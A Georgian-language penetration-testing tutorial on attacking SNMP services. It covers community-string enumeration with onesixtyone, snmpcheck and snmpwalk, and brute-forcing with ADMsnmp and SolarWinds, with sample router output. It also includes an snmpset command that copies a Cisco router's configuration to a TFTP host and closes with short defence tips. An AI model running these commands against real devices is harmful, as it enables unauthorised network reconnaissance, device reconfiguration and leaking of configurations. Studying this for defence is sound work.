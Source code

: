 # თეორია

SNMP სერვისი ელოდება კავშირს UDP პორტ 161-ზე. SNMP იმარება ქსელური მოწყობილობების გასამართად (როუტერი, პრინეტრი, ...).
SNMP-ესთან აუთენთირება მარტივია და ტექსტის ფორმით მოძრაობს ქსელში. SNMP Management Information Base (MIB) მონაცემების მოპოვება შესაძლოა წასაკითხი community string-ების მეშვეობით, MIB-ში მონაცემების შეცვლისთვის კი ჩასაწერი community string-ებია საჭირო. MIB მონაცემების ბაზაში არის Object Identifier (OID) მონაცემები, როგორიცაა როუტერის მასივი, სტატისტიკა ქსელის შესახებ, ქსელური ინტერფეისების შესახებ. რა თქმა უნდა როუტერის მასივის ნახვა საინტერესოა შიდა ქსელში მყოფი კომპიუტერების დასადგენად.
სხვადასხვა მოწყობილობას თავისებური სპეციფიკური community string-ები მოჰყვება.
SNMP პროტოკოლის სამი ვერსია არსებობს, მესამე ვერსია უფრო დაცულია და მაშასადამე ეს უფრო პირვერ და მეორე ვერსიას ეხება.

მოკლე სტატია SNMP პროტოკოლის შესახებ: http://www.tech-faq.com/snmp.html

# onesixtyone

onesixtyone-ი არის SNMP-ს სკანერი.

```
# onesixtyone 192.168.1.254
```

# snmpcheck

snmpcheck-ით ინფორმაციას მოიპოვთ SNMP მოწყობილობის შესახებ.

```
# snmpcheck -t 192.168.1.254
```

# MIB-თან მიწვდომა

## snmpwalk

ხელსაწყო snmpwalk-ი არის snmp პაკეტის ერთ-ერთი პროგრამა, მას შეუძლია community string-ის გამოყენებით ნახოს MIB მონაცემთა ბაზაში შეტანილი ინფორმაცია


snmpwalk-ით Cisco როუტერის MIB მონაცებთა ბაზის ნახვა. რახან ბევრი ინფორმაციაა მხოლოდ პირველი ნაწილია ნაჩვენები.

```
# snmpwalk -c public 192.168.0.1

system.sysDescr.0 = Cisco Internetwork Operating System Software IOS

(tm) C2600 Software (C2600-IS-M), Version 12.0(6), RELEASE SOFTWARE

(fc1) Copyright (c) 1986-1999 by cisco Systems, Inc. Compiled Wed

11-Aug-99 00:16 by phanguye

system.sysObjectID.0 = OID: enterprises.9.1.186

system.sysUpTime.0 = Timeticks: (86128) 0:14:21.28

system.sysContact.0 = 

system.sysName.0 = pipex-gw.trustmatta.com

system.sysLocation.0 = 

system.sysServices.0 = 78

system.sysORLastChange.0 = Timeticks: (0) 0:00:00.00
```

სხვა გამოყემება:

```
# snmpwalk -v 2c -c public -O T -L f snmpwalk.txt 192.168.0.11
```

ამ მაგალითში ვიყენებთ snmp პროტოკოლის მეორე ვერსიას (-v 2c), ვეძებთ public community string-ებს (-c public), ადამიანისთვის გასაგები ტექსტის ბეჭვდა (-O T), ლოგების ჩაწერა snmpwalk.txt ფაილში (-L f snmpwalk.txt), იპ მისამართი 192.168.0.11.

snmpwalk-ის შესახებ: http://net-snmp.sourceforge.net/wiki/index.php/TUT:snmpwalk

## მონაცემების შეცვლა

გარკვეული მონაცემი რომ შეცვალო MIB მონაცემთა ბაზაში უნდა გაოიყენო ხელსაწყო snmpset.

მაგალითი:

```
# snmpset -r 3 -t 3 192.168.0.1 private .1.3.6.1.4.1.9.2.1.55.192.\

    168.0.50 s "cisco-config"
```

# სისუსტეების დადგენა

## NETWOX/NETWAG (ვინდოუსი ან იუნიქსი)

**წინა პირობა**

SNMP სერვისი უნდა იყოს გაშვებული მსხვერპლის კომპიუტერში. NETWOX ან NETWAG (გრაფიკული ვარიანტი) გაძლევთ საშუალებას რომ გაეცნოთ ინფორმაციებს მსხვერპლის SNMP სერვისის მიერ.

NETWAG-ში აირჩიე ნომერი 160 - SNMP WALK.

# SNMP-ს community string-ების გატეხვა

SNMP community strings ბრუტფორსი შესაძლოა SolarWInds პროგრამის მიერ

## იუნიქსი

### ADMsnmp

შეგიძლიათ იგი მოიპოვოთ შემდეგ მისამართზე: http://adm.freelsd.net/ADM/.

```
# ADMsnmp 192.168.0.1

ADMsnmp vbeta 0.1 (c) The ADM crew

ftp://ADM.isp.at/ADM/

greets: !ADM, el8.org, ansia

>>>>>>>>>>> get req name=root  id = 2 >>>>>>>>>>>
>>>>>>>>>>> get req name=public   id = 5 >>>>>>>>>>>
>>>>>>>>>>> get req name=private  id = 8 >>>>>>>>>>>
>>>>>>>>>>> get req name=write  id = 11 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 9 name = private ret =0 <<<<<<<<<
>>>>>>>>>>>> send setrequest id = 9 name = private >>>>>>>>
>>>>>>>>>>> get req name=admin  id = 14 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 10 name = private ret =0 <<<<<<<<
>>>>>>>>>>> get req name=proxy  id = 17 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 140 name = private ret =0 <<<<<<<
>>>>>>>>>>> get req name=ascend  id = 20 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 140 name = private ret =0 <<<<<<<
>>>>>>>>>>> get req name=cisco  id = 23 >>>>>>>>>>>
>>>>>>>>>>> get req name=router  id = 26 >>>>>>>>>>>
>>>>>>>>>>> get req name=shiva  id = 29 >>>>>>>>>>>
>>>>>>>>>>> get req name=all private  id = 32 >>>>>>>>>>>
>>>>>>>>>>> get req name= private  id = 35 >>>>>>>>>>>
>>>>>>>>>>> get req name=access  id = 38 >>>>>>>>>>>
>>>>>>>>>>> get req name=snmp  id = 41 >>>>>>>>>>>



<!ADM!>         snmp check on pipex-gw.trustmatta.com       <!ADM!>

sys.sysName.0:pipex-gw.trustmatta.com

name = private write access
```


## ვინდოუსი

### SolarWInds

SolarWInds არის კომერციული პროგრამა (30 დღე უფასოია; რამოდნიმე წამი შეიძლება თავდასხმის განხორციელება) გრაფიკული ინტერფეისით. მას შუძლია SNMP community strings ბრუტფორსი. SNMP-ის გარდა მას სხვა შესაძლებლობებიც აქვს.

პროგრამაში შეარჩიეთ: Security -> SNMP Bruteforce attack

როდესაც თავდამსხმელი აღმოაჩენს read-only community string, მას შეუძლია რომ ინფორმაციაბი ნახოს მსხვერპლის ქსელის შესახებ SNMP-ს მეშვეობით. შემთხვევაში მას შეუძლია გაეცნოს managed device მოწყობილობების ინფორნაციებს, შეცვალოს პარამეტრები (კონფიგურირება), ან სულაც გამორთოს კომპიუტერი.


# დაცვა

bastion servers/workstations, host-based firewalls, ძლიერი პაროლები, ძნელად გამოსაცნობი community string-ები.
